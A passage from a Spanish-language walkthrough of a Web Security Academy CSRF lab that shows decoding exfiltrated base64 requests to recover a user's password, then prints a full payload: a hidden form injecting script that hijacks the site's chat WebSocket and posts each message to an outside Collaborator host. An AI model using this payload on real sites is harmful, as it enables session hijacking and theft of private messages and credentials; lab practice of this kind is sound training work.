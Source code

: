 ![](/assets/img/CSRF-Lab-9/image_29.png)

Si nos vamos al `Access log` vemos que hemos `recibido` varias `peticiones` en `base64`

![](/assets/img/CSRF-Lab-9/image_30.png)

Nos pegamos las `cadenas en base64` en el `Decoder` de `BurpSuite` y `obtenemos` la `contraseña` de `carlos`

![](/assets/img/CSRF-Lab-9/image_31.png)

La `alternativa` con `Burpsuite Collaborator` sería esta

```
<html>
    <body>
        <form action="https://cms-0a0100980343b3ed815af2f0004d00bd.web-security-academy.net/login" method="POST">
            <input type="hidden" name="username" value="<script>
                var webSocket = new WebSocket('wss://0a0100980343b3ed815af2f0004d00bd.web-security-academy.net/chat');
                webSocket.onopen = function() {
                    webSocket.send('READY');
                };
                webSocket.onmessage = function(event) {
                    var message = event.data;
                    fetch('https://h9rj79ho06s4y2egfxukngkngemaa2yr.oastify.com', {method: 'POST', mode: 'no-cors', body: message});
                };
            </script>">
            <input type="hidden" name="password" value="test">
        </form>

```
